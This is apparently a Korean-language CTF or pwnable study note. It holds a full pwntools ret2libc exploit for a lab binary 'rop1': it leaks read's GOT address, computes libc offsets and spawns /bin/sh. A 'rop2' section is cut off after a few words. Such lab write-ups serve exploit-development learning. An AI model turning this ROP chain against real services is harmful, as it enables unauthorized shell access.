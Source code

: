 # 6주차

## rop1

You can use read, write  
먼저 write 함수를 이용하여 read 함수의 실제 주소를 알아내고, 이를 이용하여 libc_leak을 한다. system 함수와 '/bin/sh'의 주소를 구한 뒤 그것을 실행하도록 한다.  
필요한 gadget은 pop3_ret


```python
from pwn import *

p = process("./rop1")
e = ELF("./rop1")
libc = e.libc

pop_ret = 0x08049022
pop3_ret = 0x08049381
read_plt = 0x080490b0
read_got = 0x0804bfd4
write_plt = 0x08049100
write_got = 0x0804bfe8
main = 0x80492ca


payload = b'A'*0x40
payload += b'B'*0x4
payload += p32(write_plt)
payload += p32(pop3_ret)
payload += p32(1)
payload += p32(read_got)
payload += p32(4)
payload += p32(main)

p.sendline(payload)

read_addr = u32(p.recv(4))

libc_base = read_addr - libc.symbol['read']
system_addr = libc_base + libc.symbol['system']
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]


payload = b'A'*0x40
payload += b'B'*0x4
payload += p32(system_addr)
payload += b'C'*0x4
payload += p32(binsh)

p.send(payload)

p.interactive()

```


## rop2

gets and puts  
일단 우리는...



